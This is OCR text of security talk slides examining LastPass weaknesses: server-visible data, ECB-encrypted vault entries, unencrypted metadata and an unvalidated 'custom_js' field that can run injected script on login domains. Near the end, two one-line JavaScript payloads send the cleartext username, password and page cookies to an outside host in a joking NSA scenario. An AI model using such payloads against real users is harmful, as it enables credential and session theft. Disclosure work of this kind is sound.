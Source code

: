 DEMO

LastPass Side Attacks

LastPass side

LastPass recent breach
"LastPass account email addresses, password reminders, server per user salts, and
authentication hashes were compromised"

Let's get paranoid!

What does LastPass see?
 A 1-round PBKDF2-SHA256 of the vault key (auth hash) No PBKDF2 protection
 The vault key encrypted with several derived keys:
 SHA256(username + dOTP)  SHA256(SHA256(username + OTP)+OTP)
 OTP == random 16 bytes
No real 256-bit protection
 The "encrypted" vault

The "encrypted" vault

The "encrypted" vault
 Urls/Icons/Metadata is not encrypted
 No privacy  Reset password urls in LastPass
hands
 Credentials often encrypted with ECB
 Leaks some information about password length
 Leaks which passwords are identical  Leaks info about similar passwords

Encrypted vault in XML

custom_js

What is custom_js for?
 LastPass can't always find where to inject the credentials in a login page
 LastPass adds JS payloads to your encrypted vault accounts to deal with this issue
 custom_js contains those payloads

What are we really saying?
LastPass or any attacker compromising their servers can add cleartext Javascript to the encrypted accounts in your vault which will run
in the domain's context

What is custom_js for an attacker?
 JS payloads are not encrypted
 The plugin does no validation
 Victim does not notice anything strange
 The JS payload executes on every page load, not just the login page
 New accounts can be added to the encrypted vault as well
 LastPass conveniently declares 2 variables in the domain context
 lpcurruser: The cleartext username  lpcurrpass: The cleartext password

Stealing creds with custom_js

Use case
Yo! I need access to Trump's email Sorry, I can't decrypt any vault
I know you can see if he has a gmail account! Yes, but I can't decrypt any passwords
Let's misuse custom_js. Append this payload:
var req=new XMLHttpRequest();req.open("GET","https://www.nsa.gov/collectcreds?u="+lpcurruser+"&p="+lpcurrpass, false);req.send(null);request.onreadystatechange=null;
I am not comfortable doing that... Like you have a choice... I am NSA!
We checked and he did not store his gmail creds Just inject a new account to the vault and include this other payload!
var req=new XMLHttpRequest();req.open("GET","https://www.nsa.gov/collectsessionids?cookies="+document.cookie, false);req.send(null);request.onreadystatechange=null;
mmm.... shit!
